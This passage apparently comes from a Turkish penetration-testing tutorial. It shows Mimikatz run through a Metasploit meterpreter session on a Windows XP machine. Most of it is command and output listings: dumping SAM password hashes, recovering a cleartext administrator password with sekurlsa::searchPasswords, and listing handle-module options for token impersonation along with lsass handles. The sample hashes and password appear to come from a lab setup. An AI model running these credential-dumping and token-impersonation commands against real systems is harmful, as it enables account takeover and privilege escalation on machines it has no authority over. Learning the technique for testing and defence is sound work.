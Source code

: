 
```bash
meterpreter > mimikatz_command -f samdump::hashes
Ordinateur : winxp-e95ce571a1
BootKey    : 553d8c1349162121e2a5d3d0f571db7f

Rid  : 500
User : Administrator
LM   : 
NTLM : d6eec67681a3be111b5605849505628f

Rid  : 501
User : Guest
LM   : 
NTLM : 

Rid  : 1000
User : HelpAssistant
LM   : 6165cd1a0ebc61e470475c82cd451e14
NTLM : 

Rid  : 1002
User : SUPPORT_388945a0
LM   : 
NTLM : 771ee1fce7225b28f8aec4a88aea9b6a

meterpreter > mimikatz_command -f sekurlsa::searchPasswords
**[**0] **{** Administrator ; WINXP-E95CE571A1 ; SuperSecretPassword **}**
```



## Diğer Modüller



Yukarıda örnek olarak gösterilen modüllerin haricinde başka modüllerde bulunur. Bunların tamamını <a href="http://blog.gentilkiwi.com/">Mimikatz</a> web sayfasından inceleyebilirsiniz.



## Kullanıcı Token Bilgileri


```bash
meterpreter > mimikatz_command -f handle::
Module : 'handle' identifié, mais commande '' introuvable

Description du module : Manipulation des handles
list              - Affiche les handles du système **(**pour le moment juste les processus et tokens**)**
processStop       - Essaye de stopper un ou plusieurs processus en utilisant d'autres handles
tokenImpersonate  - Essaye d'impersonaliser un token en utilisant d'autres handles
nullAcl           - Positionne une ACL null sur des Handles


meterpreter > mimikatz_command -f handle::list
...snip...
  760  lsass.exe                 ->  1004       Token           NT AUTHORITY ETWORK SERVICE
  760  lsass.exe                 ->  1008       Process 704     winlogon.exe
  760  lsass.exe                 ->  1052       Process 980     svchost.exe
  760  lsass.exe                 ->  1072       Process 2664    fubar.exe
  760  lsass.exe                 ->  1084       Token           NT AUTHORITY\LOCAL SERVICE
  760  lsass.exe                 ->  1096       Process 704     winlogon.exe
  760  lsass.exe                 ->  1264       Process 1124    svchost.exe
  760  lsass.exe                 ->  1272       Token           NT AUTHORITY\ANONYMOUS LOGON
  760  lsass.exe                 ->  1276       Process 1804    psia.exe
```